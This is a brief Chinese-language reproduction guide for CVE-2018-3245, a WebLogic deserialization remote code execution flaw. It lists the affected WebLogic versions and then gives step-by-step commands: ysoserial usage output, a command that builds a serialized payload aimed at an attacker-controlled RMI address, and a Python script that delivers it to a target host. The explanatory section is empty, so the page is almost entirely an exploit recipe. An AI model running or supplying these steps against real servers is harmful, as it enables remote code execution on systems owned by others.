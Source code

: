 # （CVE-2018-3245）WebLogic反序列化远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3228](https://www.zhihuifly.com/t/topic/3228)

# （CVE-2018-3245）WebLogic反序列化远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

WebLogic 10.3.6.0

WebLogic 12.1.3.0

WebLogic 12.2.1.3

## 三、复现过程

```
https://github.com/ianxtianxt/CVE-2018-3245 
```

### Step 1

```
java -jar ysoserial-cve-2018-3245.jar 
```

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff 
```

### Step 2

```
java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc5.ser 
```

### Step 3

```
python weblogic.py [TARGET_HOST] [PORT] poc5.ser 
```